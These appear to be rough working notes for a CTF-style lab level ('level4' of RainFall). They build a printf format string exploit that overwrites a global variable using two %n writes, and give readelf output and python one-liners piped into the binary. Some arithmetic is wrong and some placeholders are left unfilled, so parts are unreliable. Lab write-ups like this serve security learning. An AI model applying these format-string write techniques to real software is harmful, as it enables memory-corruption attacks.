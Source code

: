 We see that we have a format string exploit that is vulnerable

However, the value to write to m, the global variable, is `16930116`. This is way bigger than the size of our buffer

Also, printf is called in a function p, which is another scope than where your buffer is located

First let's get the address of m

```console
level4@RainFall:~$ readelf -s level4 | grep m
66: 08049810     4 OBJECT  GLOBAL DEFAULT   25 m
```

Address of m: `0x08049810` = `\x10\x98\x04\x08`
Address of m + 2: `0x08049810 + 2` = `0x08049812` = `\x12\x98\x04\x08`

## How to write `16930116` at m ??

value to write in m: `16930116` = `0x01025544`

Lets do 2 writes!

value 1: `0x0000 5544` = `21828` at `m`
value 2: `0x0001 0102` = `258` at `m + 2`

YYYY YYY1 | 0102 5544 | ZZZZ ZZZZ

10102

21828 - 8 = 21820
258 - 21828 = 50121

address + adress + 2

`%.$value.`: put nb of paddings (whitespace) equal to value

%12?
6 ?

```
(python -c 'print ("\x10\x98\x04\x08" + "AAAAAAA" + "%12$n")'; cat) | ./level4
```

\x10\x98\x04\x08%42d%12$n

```python
exploit = ""
exploit += "\x10\x98\x04\x08"	//cible 1
exploit += "\x12\x98\x04\x08"	//cible 2
exploit += "%?$21820x"			//padding to get to value 1 (21828 - 8 = 21820)
exploit += "%?$n"				//write cible 1
exploit += "%?$43966x"			//paddding to get to value 2 (65794 - 21820 - 8 = 43966)
exploit += "%? + 1 $n"			//write cible2
```

`\x10\x98\x04\x08\x12\x98\x04\x08%12$n%12$21820x%12$n%12$43966x%13$n`

```bash
(python -c 'print ("\x10\x98\x04\x08" + "\x12\x98\x04\x08" + "%12$n" + "%12$21820x" + "%12$n" + "%12$43966x" + "%13$n")'; cat) | ./level4
```

(python -c 'print ("\x10\x98\x04\x08" + "\x12\x98\x04\x08" + "%12$n" + "%12$21820x" + "%12$n" + "%12$43966x" + "%13$n")';) | ./level4

```bash
(python -c 'print ("A" * 8 + "%12$s")'; cat) | ./level4
```

\x10\x98\x04\x08%10$n
